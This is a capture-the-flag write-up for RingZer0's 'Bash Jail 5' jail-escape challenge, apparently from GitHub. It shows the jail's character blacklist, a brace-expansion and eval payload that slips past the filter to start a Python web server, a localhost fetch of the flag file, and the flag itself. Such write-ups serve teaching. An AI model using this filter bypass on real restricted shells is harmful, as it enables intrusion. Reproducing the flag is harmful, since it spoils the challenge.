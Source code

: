 # Bash Jail 5

## Challenge Details 

- **CTF:** RingZer0
- **Category:** Jail Escaping
- **Points:** 6

## Provided Materials

- SSH credentials

## Solution

Challenge bash code:

```sh
WARNING: this prompt is launched using ./prompt.sh 2>/dev/null

function check_space {
	if [[ $1 == *[bdksctr'?''*''/''<''>''&''$']* ]]
	then 	
    		return 0
	fi

	return 1
}

while :
do
	echo "Your input:"
	read input
	if check_space "$input" 
	then
		echo -e '\033[0;31mRestricted characters has been used\033[0m'
	else
		output=`$input < /dev/null` &>/dev/null
		echo "Command executed"
	fi
done 
```

This challenge has more deprecated characters comparing to `level4`, so we can't use `python -m SimpleHTTPServer 12345` directly, but here comes [Brace Expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html) into play.

`level4`:

```sh
Your input:
eval eval py{o..u}hon\\ -m\\ SimpleHTTPSe{q..v}ve{q..v}\\ 12345\\;
```

`level1`:

```sh
Your input:
bash
level1@jail-bash:~$ python >&0
>>> import urllib2
>>> urllib2.urlopen("http://127.0.0.1:12345/flag.txt").read()
'FLAG-PcttpB5gR3faGUnuf6i1VP90ZMj42IEn\n'
```


## Final Flag

`FLAG-PcttpB5gR3faGUnuf6i1VP90ZMj42IEn`

*Created by [bu19akov](https://github.com/bu19akov)*